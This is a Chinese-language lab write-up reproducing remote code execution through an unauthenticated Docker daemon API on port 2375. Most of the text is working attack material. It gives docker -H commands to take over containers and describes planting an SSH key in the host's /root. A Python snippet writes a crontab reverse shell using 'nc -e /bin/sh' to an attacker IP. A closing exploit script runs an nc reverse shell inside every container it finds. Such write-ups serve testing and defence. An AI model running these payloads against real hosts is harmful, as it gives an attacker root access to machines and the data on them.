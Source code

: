 # Docker daemon api 未授权访问漏洞 RCE

## 漏洞描述

Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。

在使用 Docker swarm 的时候，管理的 Docker 节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。

## 环境搭建

Vulhub 编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听 2375 端口。

## 漏洞复现

### 查看容器

```
http://your-ip:2375/containers/json
```

### 执行命令

列出所有镜像：

```
docker -H tcp://your-ip:2375 images
```

列出所有容器：

```
docker -H tcp://your-ip:2375 ps -a
```

启动一个已经停止的容器：

```
docker -H tcp://your-ip:2375 start <container ID>
```

连接一个已经停止的容器：

```
docker -H tcp://your-ip:2375 attach <container ID>
```

### 获取权限

#### 写入 ssh 公钥

启动一个容器，挂载宿主机的 `/root` 目录，之后将攻击者的 ssh 公钥 `~/.ssh/id_rsa.pub` 的内容写到入宿主机的 `/root/.ssh/authorized_keys` 文件中，之后就可以用 root 账户直接登录了。

本地获取 ssh 公钥：

```
ssh-keygen -t rsa
```

#### 反弹 shell

随意启动一个容器，并将宿主机的 `/etc` 目录挂载到容器中，便可以任意读写文件了。可以将命令写入 crontab 配置文件，进行反弹 shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听 2333 端口，接收反弹 shell。

此处的反弹 shell 需要和/etc/crontabs/root 文件同时写入，不能后续追加。

![image-20220222182515581](images/202202221825647.png)

## 漏洞 EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```

